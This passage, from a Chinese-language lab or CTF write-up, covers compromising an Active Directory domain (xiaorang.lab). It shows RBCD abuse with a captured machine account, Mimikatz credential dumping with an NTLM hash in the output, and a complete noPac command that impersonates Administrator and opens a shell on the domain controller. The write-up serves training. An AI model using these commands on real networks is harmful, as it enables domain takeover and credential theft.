[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170115-cc1dca2a-b904-1.png)

此时可以看到已经成功获取了认证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170133-d73679f2-b904-1.png)

接下来用之前抓的机器账户`XR-DESKTOP$`去打`172.22.11.26`的 RBCD

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170127-d36fe178-b904-1.png)

接下来配置下

```plain
export KRB5CCNAME=administrator.ccache
sudo vim /etc/hosts
#填入内容如下
172.22.11.26XR-LCM3AE8B.xiaorang.lab
```

而后登录即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170146-dee4c4d8-b904-1.png)

## 攻击域控 (noPac)

### 添加用户

在域成员二拿到权限后，添加管理员用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170156-e5049dc0-b904-1.png)

### 密码抓取

RDP 登录后上传`Mimikatz`，抓取密码

```plain
privilege::debug
sekurlsa::logonpasswords
```

发现

```plain
Authentication Id : 0 ; 744772 (00000000:000b5d44)
Session           : RemoteInteractive from 2
User Name         : zhanghui
Domain            : XIAORANG
Logon Server      : XIAORANG-DC
Logon Time        : 2024/1/22 11:27:21
SID               : S-1-5-21-3598443049-773813974-2432140268-1133
    msv :
     [00000003] Primary
     * Username : zhanghui
     * Domain   : XIAORANG
     * NTLM     : 1232126b24cdf8c9bd2f788a9d7c7ed1
```

得到一个域内用户`zhanghui`

### nopac 攻击

题目描述中提到了`noPac`，搜索发现这篇文章[https://xz.aliyun.com/t/10694](https://xz.aliyun.com/t/10694)

漏洞原理大致如下

```plain
1、我们创建了与 DC 机器账户名字相同的机器账号 (不以$结尾，与 CVE-2021-42278 结合，此时 AD 未对域内机器用户名做验证)
2、账户请求 TGT 后，更改账户名字，通过 S4U2Self 申请 TGS 票据
3、DC 在 TGS_REP 阶段，这个账户不存在，DC 用自己的密钥加密 TGS 票据，提供一个属于该账号的 PAC，此时得到一个高权限的 ST
```

大致了解了原理，我们接下来进行实践

使用刚刚抓到的账号尝试攻击

```plain
proxychains python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122170206-ea8e4c82-b904-1.png)

成功获取权限。

这里也可以用一开始抓到的机器用户`XR-DESKTOP$`，因为它是机器账户，本身就满足条件。
